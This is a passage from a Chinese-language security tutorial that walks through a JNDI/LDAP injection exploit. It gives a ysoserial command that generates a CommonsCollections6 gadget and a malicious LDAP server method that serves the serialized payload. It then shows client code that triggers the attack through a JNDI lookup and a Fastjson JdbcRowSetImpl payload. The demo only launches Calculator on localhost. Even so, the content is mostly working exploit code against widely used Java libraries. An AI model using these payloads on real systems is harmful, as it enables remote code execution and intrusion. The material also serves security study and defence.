 如

假设目标系统中存在着有漏洞的CommonsCollections库，使用ysoserial生成一个CommonsCollections的利用Payload：

```java
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections6 '/Applications/Calculator.app/Contents/MacOS/Calculator'|base64
```

LDAP Server关键代码如下，我们在javaSerializedData字段内填入刚刚生成的反序列化payload数据：

```java
...
protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
    URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
    System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
    e.addAttribute("javaClassName", "foo");
    String cbstring = this.codebase.toString();
    int refPos = cbstring.indexOf('#');
    if ( refPos > 0 ) {
        cbstring = cbstring.substring(0, refPos);
    }
    /** Payload1: Return Evil Reference Factory **/
    // e.addAttribute("javaCodeBase", cbstring);
    // e.addAttribute("objectClass", "javaNamingReference");
    // e.addAttribute("javaFactory", this.codebase.getRef());

    /** Payload2: Return Evil Serialized Gadget **/
    try {
        // java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections6 '/Applications/Calculator.app/Contents/MacOS/Calculator'|base64
        e.addAttribute("javaSerializedData",Base64.decode("rO0ABXNyABFqYXZhLn....."));
    } catch (ParseException e1) {
        e1.printStackTrace();
    }

    result.sendSearchEntry(e);
    result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
}
...
```

模拟受害者进行JNDI lookup操作，或者使用Fastjson等漏洞模拟触发，即可看到弹计算器的命令被执行。

```java
Hashtable env = new Hashtable();
Context ctx = new InitialContext(env);
Object local_obj = ctx.lookup("ldap://127.0.0.1:1389/Exploit");

String payload ="{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://127.0.0.1:1389/Exploit\",\"autoCommit\":\"true\" }";
JSON.parse(payload);
```
